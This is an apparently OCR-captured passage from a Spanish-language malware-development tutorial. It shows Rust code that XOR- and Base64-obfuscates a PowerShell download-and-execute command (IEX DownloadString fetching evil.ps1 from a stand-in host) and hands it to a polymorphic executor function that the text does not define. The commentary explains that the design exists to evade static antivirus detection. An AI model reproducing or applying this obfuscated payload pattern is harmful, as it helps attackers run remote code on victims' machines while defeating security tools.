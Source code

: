 ```rust

// Algoritmo 2: Decodificador Base64 (usando una librería externa)
// Para usar esto, añade `base64 = "0.21"` a tu Cargo.toml
fn base64_decode(data: &[u8]) -> Vec<u8> {
    use base64::{engine::general_purpose, Engine as _};
    general_purpose::STANDARD.decode(data).unwrap_or_default()
}


fn main() {
    // Nuestro comando malicioso secreto
    let secret_command = "powershell -c \"IEX (New-Object Net.WebClient).DownloadString('http://example.com/evil.ps1')\"";

    // --- Preparando Payloads Ofuscados ---

    // 1. Payload ofuscado con XOR y una clave secreta (0xAB)
    let xor_key = 0xAB;
    let xor_encoded_payload: Vec<u8> = secret_command.bytes().map(|b| b ^ xor_key).collect();
    println!("🔑 Payload cifrado con XOR: {:?}", &xor_encoded_payload[..20]);


    // 2. Payload ofuscado con Base64
    use base64::{engine::general_purpose, Engine as _};
    let base64_encoded_payload = general_purpose::STANDARD.encode(secret_command);
    println!("📜 Payload codificado en Base64: {}...", &base64_encoded_payload[..20]);

    println!("\n=== INICIANDO OPERACIONES ===\n");


    // --- Usando nuestro ejecutor polimórfico ---

    // Ejecutamos el payload XOR. Usamos una closure para capturar la `xor_key`.
    // La closure `|payload| xor_decode(payload, xor_key)` cumple con el trait `Fn(&[u8]) -> Vec<u8>`.
    execute_decoded_payload(&xor_encoded_payload, |payload| xor_decode(payload, xor_key));

    // Ejecutamos el payload Base64. Pasamos la función directamente.
    execute_decoded_payload(base64_encoded_payload.as_bytes(), base64_decode);
}

``` 

### Okay pero por qué este patrón es útil en malware development?
- Polmorfismo para la evasión: Se puede tener 10 maneras diferentes de cifrar un payload. El código principal que lo ejecuta `execute_decoded_payload` no cambia, solo la función de decodificación. Dandonos una flexibilidad enorme para cambiar el algoritmo de evasión sin reescribir la lógica de ejecución.
- Evasión del analisis estatico de los AV: cuando un AV mira los bytes de tu ejecutable no va a ver el string "powershell -c ...". Va a ver una secuencia de bytes ofuscados. Esto dificulta que los AV detecten el payload malicioso.
- Modularidad y reutilización: Puedes reutilizar `execute_decoded_payload` con diferentes algoritmos de decodificación sin duplicar código. Si necesitas cambiar la lógica de ejecución, solo modificas una parte.